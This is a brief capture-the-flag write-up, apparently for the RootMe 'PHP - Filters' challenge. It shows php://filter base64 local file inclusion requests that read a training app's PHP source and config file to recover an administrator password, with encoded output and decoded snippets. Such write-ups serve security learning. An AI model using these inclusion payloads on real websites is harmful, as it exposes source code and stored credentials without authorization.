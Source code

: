 # PHP Filters

[RootMe challenge: PHP - Filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters): FileManager v 0.01 | Retrieve the administrator password of this application.

----

```text
/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=index.php
```

Gives:

```text

PD9waHAgaW5jbHVkZSgiY2gxMi5waHAiKTs/Pg==
```

Base64 decode:

```text
<?php include("ch12.php");?>
```

```text
web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=ch12.php
```

Gives:

```text
PD9waHAKCiRpbmM9ImFjY3VlaWwucGhwIjsKaWYgKGlzc2V0KCRfR0VUWyJpbmMiXSkpIHsKICAgICRpbmM9JF9HRVRbJ2luYyddOwogICAgaWYgKGZpbGVfZXhpc3RzKCRpbmMpKXsKCSRmPWJhc2VuYW1lKHJlYWxwYXRoKCRpbmMpKTsKCWlmICgkZiA9PSAiaW5kZXgucGhwIiB8fCAkZiA9PSAiY2gxMi5waHAiKXsKCSAgICAkaW5jPSJhY2N1ZWlsLnBocCI7Cgl9CiAgICB9Cn0KCmluY2x1ZGUoImNvbmZpZy5waHAiKTsKCgplY2hvICcKICA8aHRtbD4KICA8Ym9keT4KICAgIDxoMT5GaWxlTWFuYWdlciB2IDAuMDE8L2gxPgogICAgPHVsPgoJPGxpPjxhIGhyZWY9Ij9pbmM9YWNjdWVpbC5waHAiPmhvbWU8L2E
```

Base64 decode:

```text
<?php
...
include("config.php");
...
```

Decode, and get password.

## Resources

* [LFI/RFI using PHP wrappers & protocols](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols)
